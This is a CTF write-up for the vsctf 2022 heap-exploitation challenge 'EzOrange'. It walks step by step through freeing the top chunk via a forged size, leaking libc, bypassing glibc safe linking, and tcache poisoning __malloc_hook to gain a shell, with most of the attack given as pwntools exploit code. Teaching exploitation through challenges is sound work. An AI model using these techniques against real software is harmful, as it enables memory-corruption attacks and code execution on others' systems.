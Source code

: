 ```yaml
---
layout: post
readtime: true
tags: [tcache_poisoning,uaf,sysmalloc,top_chunk]
---
```


### Attachments : [ezorange](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ezorange) , [libc.so.6](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/libc.so.6), [ld-2.23.so](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ld-2.23.so)
<br>
EzOrange was an interesting heap exploitation challenge from vsctf 2022. This challenge uses libc-2.32. There are two options, `Buy an orange` and `Modify part of orange`. The first options allows us to allocate chunks of size <= 0x1000 and index(Orange number) either 0 or 1. The second option asks for an index(Orange number) and a cell index, prints the byte present at the cell index and then reads a new value for it(that can be controlled by the user). Thus, we have an arbitrary read/ write primitive, one byte at a time. There's no function that would allow us to free a chunk. Let's create some helper functions for malloc, read and write


```
def buy_orange(orange_number,size):
    p.sendlineafter("> ","1") 
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Size: ",str(size))

def modify_orange(orange_number,cell_index,value):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.sendlineafter("New value: ",str(value))

def leak_byte(orange_number,cell_index):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.recvuntil("Current value: ")
    leak = p.recvline()[:-1]
    p.sendlineafter("New value: ",leak)
    return leak

```
Alright, after writing a few helper functions, our goal is to generate a libc leak. This can be done by inserting a chunk into the unsorted bin and then reading the fd or bk, one byte at a time. But, wait a minute, there's no such functionality present in the binary that allows us to free a chunk. So, how do we insert a chunk into the unsorted bin if we can't free it? Well, in this case we can indirectly free a chunk by overwriting the `SIZE` field of the top chunk with a small value followed by large allocations. Whenever `malloc` receives a request that is too large to be serviced by an arena's top chunk or bins, the normal arenas handle it by changing permissions on the pre-mapped heap memory but the main arena invokes the `brk` system call to request memory from the kernel after which `malloc` checks the `SIZE` field to find out whether the newly allocated memory is contiguous to the heap or not. If it is, `malloc` extends the size of the top chunk. If the `SIZE` of the top chunk is overwritten with a small value and a large request to `malloc` is made, `malloc` finds out that the new memory doesn't border the end of the heap because of the fake size field of the top chunk. Since the newly allocated memory is larger, `malloc` starts a new heap right there by freeing the previous top chunk and moving the top chunk pointer to the newly allocated memory. Internally, the `sysmalloc` function is called. But, you cannot overwrite the top_chunk `SIZE` field with any value, there's a check involved in it.

```
static void * sysmalloc (INTERNAL_SIZE_T nb, mstate av)
{
.....
  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));
.....
}
```
The `PREV_INUSE` bit of the top chunk must be set and the chunk should end on a page boundary. 

Alright, so let's start the attack by allocating a chunk
```
buy_orange(0,24)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img1.png"/>

Now, we need to overwrite the `SIZE` of the top chunk with the value `0xd51` followed by a large request. This would free the top chunk and insert it into the unsorted bin. 
```
value = 0xd51
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```
After that, we can leak data from the free chunk, one byte at a time to get a libc leak.

```
libc_leak = b'\x00'
for i in range(33,40):
    leak = leak_byte(0,i)
    leak = int(leak)
    libc_leak += p8(leak)
leak = u64(libc_leak)
libc.address = leak-0x1c5c00
log.critical("Libc base: {}".format(hex(libc.address)))
```
Now, after getting the libc base address, we'll try overwriting `__malloc_hook` with `one_gadget`. This can be done by inserting chunks into the tcache and corrupting the `fd`.
```
# Let's remove the chunk from the unsorted bin
buy_orange(0,0xd28)
buy_orange(0,0x10)
```
We can again overwrite the `SIZE` field of the top chunk and make large allocations to insert a chunk into the tcache. So, let's overwrite the `SIZE` of the top chunk with 0x221 and make a large request free a chunk and insert into the tcache.

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img2.png"/>
```
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img3.png"/>
Alright, so we've successfully inserted a chunk into the tcache. Now, the only thing that's left is to overwrite `__malloc_hook` with `one_gadget`. 
Let's leak the `fd` field from the free chunk. 
```
heap_leak1 = b''

for i in range(0x20,0x28):
    leak = leak_byte(0,i)
    leak = int(leak)
    heap_leak1 += p8(leak)
heap_leak1 = heap_leak1.ljust(8,b'\x00')
heap_leak1 = u64(heap_leak1)

```
libc2.32 has a check on the count fields in tcache. This can be bypassed by inserting one more chunk into the tcache , which would increase the count field of that particular tcache bin to 2. After that, we can corrupt the `fd` of the most recently freed chunk. 
```
buy_orange(0,0x10)
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)

heap_leak1 += 0x22
```
Now, libc2.32 includes an exploit mitigation known as [safe linking](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/). Basically, it obfuscates the `fd` of chunks that belong to bins that are singly linked.
In order t6o insert the `__malloc_hook` into the free list, we'll need to xor it with the heap leak.
```
__malloc_hook = __malloc_hook ^ heap_leak1
__malloc_hook = p64(__malloc_hook)
```
Now, we're all set. Let's launch tcache poisoning.
```
for i in range(0x20,0x28):
    modify_orange(0,i,__malloc_hook[i-0x20])
```

So, we've successfully inserted the `__malloc_hook` into the free list. Let's grab it.
<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img4.png">

```

buy_orange(0,0x1f8)
buy_orange(0,0x1f8)
one_gadget = libc.address + 0xceb71
one_gadget = p64(one_gadget)
```
Overwrite `__malloc_hook` with `one_gadget` and call `malloc` to drop a shell
```
for i in range(0,8):
    modify_orange(0,i,one_gadget[i])
buy_orange(0,0x10)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img5.png">

### Complete exploit can be found [here](https://github.com/0xSh4dy/ctf_writeups/blob/master/vsctf2022/EzOrange/ezorange.py)